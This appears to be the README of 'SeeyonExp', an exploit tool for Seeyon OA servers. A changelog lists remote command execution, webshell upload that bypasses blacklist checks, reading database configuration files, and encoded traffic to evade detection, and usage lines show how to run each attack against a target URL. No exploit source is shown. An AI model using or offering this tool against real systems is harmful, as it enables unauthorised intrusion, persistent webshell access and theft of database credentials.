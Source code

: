 # SeeyonExp

### 0x00 开发日志

V0.7 增加识别版本后无损检测漏洞功能，有那么点漏扫的意思

V0.6 增加数据库配置文件读取功能

V0.5 增加回显流量加密功能，Base64与ascii结合，Base65

V0.4 解决命令执行for循环无法执行for之后Java代码的bug，分号的神奇作用

V0.3 增加文件上传功能，Base64不编码写入不了，黑名单校验

V0.2 命令可以在windows与Linux下执行，并支持https

V0.1 根据POC写出初步利用，可以执行命令，但是仅在windows与http下

### 0x01 使用方法

无损检验是否存在漏洞：java -jar seeyon.jar scan 

http/https://xxxx.com:port/seeyon 执行命令：java -jar seeyon.jar http/https://xxxx.com:port/seeyon cmd 

写入shell：java -jar seeyon.jar http/https://xxxx.com:port/seeyon shell srcFile desFile 

读取数据库配置文件：java -jar seeyon.jar http/https://xxxx.com:port/seeyon dataConf 

流量解码：java -jar seeyon.jar decode ciphertext 

流量编码：java -jar seeyon.jar encode Plaintext
